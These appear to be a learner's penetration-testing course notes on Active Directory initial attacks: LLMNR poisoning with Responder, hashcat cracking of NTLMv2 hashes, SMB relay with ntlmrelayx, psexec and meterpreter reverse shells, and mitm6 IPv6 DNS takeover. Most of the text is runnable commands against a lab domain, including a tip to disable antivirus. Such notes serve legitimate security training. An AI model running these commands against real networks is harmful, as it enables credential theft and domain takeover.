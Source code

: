 # Attacking Active Directory: Initial Attack Vectors

- [The Five Ways I Got Domain Admin](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)


## LLMNR Poisoning
### What is LLMNR?
- Link Local Multicast Name Resolution
- Used to identify hosts when DNS fails to do so
- Previously NBT-NS (NetBIOS nameservice)
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to


![](https://i.imgur.com/Edpn2O8.png)

## Capturing NTLMv2 Hashes with Responder

### Steps:

1. Step 1: Run responder
`python Responder.py -I tun0 -rdw`
2. Step 2: An Event occurs (user searches for incorrect share i.e the ip of the attacker machine running the responder share)

Result:
![](https://i.imgur.com/zp3bwFY.png)

4. Step 3: Get dem hashes
5. Step 4: Crack dem hashes
`hashcat -m 5600 hashes.txt rockyou.txt`


## Password Cracking with Hashcat

`hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt`

> - Add -O (optimized) when running on bare metal
> - Use --force 
> - To run on windows, download binary then run the exe file
> - You can switch between using the CPU or GPU (search online)

Result: 

![](https://i.imgur.com/B0A7nYH.png)

## LLMNR Poisoning Defence

![](https://i.imgur.com/OgF2UD1.png)

## SMB Relay Attacks Overview

### What is SMB Relay?
- Instead of cracking hashes gathered with Responder, we can instread relay those hashes to specific machines and potentially gain acces

### Requirements
- SMB signing must be disabled on the target 
- Relayed user credentials must be admin on machine

### Steps:
1. Turn off SMB and HTTP in responder config `/usr/share/responder/Responder.conf`
2. Run responder
3. Set up your relay
`python ntlmrelayx.py -tf targets.txt -smb2support`
4. An event occurs... SMB signing disabled
5. Win (retrieve SAM file - similar to /etc/shadow file on linux)

## Discovering Hosts with SMB Signing Disabled

1. Run nmap script
`nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24`
2. Fill targets.txt with 'SMB signing not required' hosts

## SMB Relay Attack Demonstration

### Part 1
1. Edit `/etc/responder/Responder.conf` turn off SMB and HTTP
2. Start `sudo responder -I eth0 -rdwv`
3. Start `sudo python3 ntlmrelayx.py -tf targets.txt -smb2support`
4. Trigger the event by opening `\\192.168.57.7` on Frank Castle's machine
5. Get SAM hashes

### Part 2

1. Repeat steps 2 and 3 (with -i this time) in part 1
2. Run `nc 127.0.0.1 11000`

> - use -e test.exe to get shell with MSF after generating payload with MSF venom
> - use -c for running command 


## SMB Relay Attack Defenses

![](https://i.imgur.com/ZKRjaQy.png)

## Gaining shell access

### psexec(noisy options)
1. Run metasploit
2. Use psexec 
3. Set options
4. Set payload `windows/x64/meterpreter/reverse_tcp`
5. Set lhost `eth0`
6. Try running the exploit multiple times (sometimes works and sometimes doesn't)

### psexec.py
1. Try this is meterpreter doesn't work:
`psexec.py marvel.local/fcastle:Password1@192.168.57.5`

2. Also try; smbexec, wmiexec

> Pro tip: start with smbexec, wmiexec
> Figure out what antivirus is running and turn it off to allow meterpreter to run


## Ipv6 attacks overview

- Go to attack right now (much more reliable)
![](https://i.imgur.com/MLvmNbv.png)


## Ipv6 DNS Takeover via mitm6
### Steps

1. Install mitm6 (github)
2. Setup mitm6
`sudo python3 mitm6.py -d marvel.local`
3. Run ntlmrelayx 
`sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -6 -t ldaps://192.168.57.4 -wh wpad.marvel.local -l lootme`
4. Wait for event (restart of machine or wait 30mins)
5. GG

### Resources:

- [mitm6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [Combining NTLM Relatys and kerberos Delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)


## Ipv6 Attack Defenses 

![](https://i.imgur.com/g8SnMZb.png)

## A pentesters guide to printer hacking

- [Guide](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)

## Other Attack vectors and strategies

Strategies:

- Begin day with mitm6 or responder
- Run scans to generate traffic
- If scans are taking too long, look for websites in scope (metasploit module - http_version)
- Look for default credentials on web logins
	- Printers
	- Jenkins
	- Etc
- Think outside the box

